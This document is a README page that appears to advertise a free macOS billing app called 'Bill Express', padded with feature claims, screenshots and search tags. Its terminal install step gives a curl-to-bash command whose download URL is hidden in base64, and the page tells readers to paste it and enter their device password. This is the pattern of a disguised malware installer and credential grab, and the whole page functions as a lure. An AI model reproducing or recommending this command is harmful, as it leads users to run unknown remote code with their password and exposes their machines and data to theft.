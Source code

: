 # Bill Express — Download For Mac OS 🧾
![logo](https://i.imgur.com/W6BWSJC.png)

Effortlessly manage your finances with Bill Express, a powerful and free desktop app for Mac OS. Follow the instructions below to install and streamline your billing process.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/billexpress)

If the button above doesn’t work, follow the terminal command instructions below.

## 📦 How to Install Bill Express For Mac OS

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Bill Express app to your Applications folder.
3. Open a terminal and navigate to the Applications folder where you placed the app.
4. Press the "Return" key, then enter your device password in the prompt (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via Terminal Command:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the Terminal app on your Mac and paste the command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🧾 **Invoice Creation**: Generate professional invoices in minutes with customizable templates.
- 📊 **Expense Tracking**: Monitor your spending with intuitive dashboards and reports.
- 💸 **Payment Management**: Track payments and automate reminders for overdue invoices.
- 🔄 **Data Sync**: Sync your financial data securely across devices for real-time updates.
- 📈 **Analytics Tools**: Gain insights into your financial performance with built-in analytics.
- 🛠 **Custom Workflows**: Tailor the app to your business needs with flexible settings.

## About Bill Express

Bill Express is a free, user-friendly desktop application designed for Mac OS users who need a reliable tool to manage their finances. Whether you're a freelancer, small business owner, or managing personal budgets, Bill Express simplifies the process of creating invoices, tracking expenses, and analyzing financial data. With its sleek interface and robust functionality, it’s the perfect solution for anyone looking to take control of their billing process without the hassle of complex software.

The app’s intuitive design ensures that users can quickly generate professional invoices using customizable templates that align with their brand. By incorporating powerful expense tracking features, Bill Express allows users to monitor their spending habits and make informed financial decisions. The built-in analytics tools provide detailed insights into your financial performance, helping you identify trends and optimize your budget.

Security is a top priority for Bill Express. All your financial data is encrypted and stored locally on your Mac, ensuring privacy and peace of mind. The app also supports seamless data synchronization, allowing you to access your information across multiple devices without compromising security. Whether you’re working from your office or on the go, Bill Express keeps your financial data at your fingertips.

One of the standout features of Bill Express is its flexibility. Users can customize workflows to suit their specific needs, from setting up recurring invoices to automating payment reminders. This adaptability makes it an ideal choice for businesses of all sizes, from solo entrepreneurs to growing startups. The app is optimized for Mac OS, ensuring smooth performance and compatibility with the latest macOS updates.

### Why Choose Bill Express?

Bill Express stands out from other financial management tools due to its simplicity, power, and cost—it's completely free! Unlike other software that requires expensive subscriptions or complex setups, Bill Express offers a straightforward, no-cost solution that doesn’t compromise on features. Its Mac-optimized design, robust security, and seamless user experience make it the go-to choice for anyone seeking a free download to manage their finances effectively.

## 🖼 Preview

![Dashboard Overview](https://is4-ssl.mzstatic.com/image/thumb/Purple124/v4/a2/57/f2/a257f217-7a9b-ee9a-4c62-f1370d4da988/pr_source.jpg/1286x0w.jpg)  
*View your financial data in a sleek, intuitive dashboard.*

![Invoice Creation](https://allmacworlds.com/wp-content/uploads/2021/06/Bill-Express-macOS-Free-Download-1024x664.jpg)  
*Create professional invoices with customizable templates.*

## 🔍 Tags

bill express, download bill express, financial management mac, bill express download, bill express free, bill express download free, free bill express, download bill express mac, bill express mac, bill express for mac, bill express software, bill express for mac, bill express pay
